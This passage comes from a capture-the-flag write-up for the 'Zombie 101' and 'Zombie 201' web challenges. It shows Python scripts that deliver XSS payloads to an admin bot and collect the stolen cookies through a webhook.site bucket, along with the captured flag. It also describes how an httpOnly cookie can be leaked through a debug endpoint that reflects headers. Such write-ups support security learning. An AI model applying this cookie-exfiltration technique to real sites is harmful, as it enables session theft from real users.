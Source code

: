 ```python
target_url = visit_base + urllib.parse.quote_plus(show_base + urllib.parse.quote_plus(payload))
r = requests.get(target_url)
print(r.text)

# fetch result
r = requests.get(f"https://webhook.site/token/{bucket_id}/requests?sorting=newest")
print(r.json()["data"][0]["query"]["cookie"])
```

{% endraw %}

When running it we get the following output:

{% raw %}

```console
$ python3 101.py
admin bot has visited your url
flag=wctf{c14551c-4dm1n-807-ch41-n1c3-j08-93261}
```

{% endraw %}

## Zombie 201

For Zombie 201 httpOnly is set to true, meaning we can't access the cookie through our simple XSS.
By looking at the source code we can find an interesting endpoint however:

{% raw %}

```js
// useful for debugging cloud deployments
app.get("/debug", function (req, res) {
  if (config.allowDebug) {
    res.send({ "remote-ip": req.socket.remoteAddress, ...req.headers });
  } else {
    res.send("sorry, debug endpoint is not enabled");
  }
});
```

{% endraw %}

By utilizing this endpoint we can get the cookie through reflected XSS:

{% raw %}

```python
import requests
import os
import json
import urllib.parse

# setup bucket
token_path = ".webhook-site.token"
if os.path.exists(token_path):
    with open(token_path, "r") as f:
        bucket_id = f.read()
else:
    r = requests.post("https://webhook.site/token")
    bucket_id = r.json()["uuid"]
    with open(token_path, "w") as f:
        f.write(bucket_id)

bucket_url = f"https://webhook.site/{bucket_id}"
print(f"https://webhook.site/#!/{bucket_id}/")

# execute exploit
base_base = 'https://zombie-201-tlejfksioa-ul.a.run.app'
```